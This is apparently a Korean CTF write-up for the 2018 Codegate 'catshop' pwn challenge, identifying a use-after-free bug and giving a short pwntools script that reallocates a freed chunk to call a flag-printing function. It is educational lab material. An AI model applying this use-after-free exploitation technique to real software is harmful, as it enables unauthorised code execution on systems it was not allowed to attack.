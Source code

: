 ```yaml
---
title: "2018 Codegate catshop"
date: 2019-11-13
tags: [Codegate]
categories: [Pwn]
---
```


UAF 취약점이 발생한다. 

fget는 입력 받을 개수 -1 만큼 입력받고 마지막 문자를 NULL로 만들어서 4bytes 주소값을 넣으려면 5만큼 넣어줘야한다. 

```python
from pwn import *
 
p = process('./catshop')
e = ELF('./catshop')
 
flag = 0x080488b6
 
p.sendafter(':',p32(1)) # malloc
sleep(0.1)
p.sendafter(':',p32(2)) # free
sleep(0.1)
p.sendafter(':',p32(4)) # malloc
sleep(0.1)
p.sendafter(':',p32(5)) # length
sleep(0.1)
p.sendlineafter(':',p32(flag)) # fget -> \x00
sleep(0.1)
p.sendlineafter(':',p32(3)) # call
 
p.interactive()
```

